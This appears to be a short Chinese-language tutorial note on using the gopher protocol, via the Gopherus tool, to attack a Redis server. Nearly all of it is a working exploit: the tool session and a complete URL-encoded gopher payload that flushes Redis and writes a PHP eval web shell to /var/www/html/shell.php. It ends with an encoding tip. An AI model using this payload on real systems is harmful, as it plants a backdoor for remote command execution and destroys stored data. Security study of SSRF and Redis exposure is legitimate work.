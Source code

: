 使用 gopher 协议去打 redis

用 gopherus 工具生成 payload

```
➜  Gopherus git:(master) python  gopherus.py --exploit redis


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$


Ready To get SHELL

What do you want?? (ReverseShell/PHPShell): phpshell

Give web root location of server (default is /var/www/html):
Give PHP Payload (We have default PHP Shell): <?php @eval($_POST['cmd']);?>

Your gopher link is Ready to get PHP Shell:

gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2433%0D%0A%0A%0A%3C%3Fphp%20%40eval%28%24_POST%5B%27cmd%27%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

When it's done you can get PHP Shell in /shell.php at the server with `cmd` as parmeter.
```

_下划线后面的字符串要url编码一次
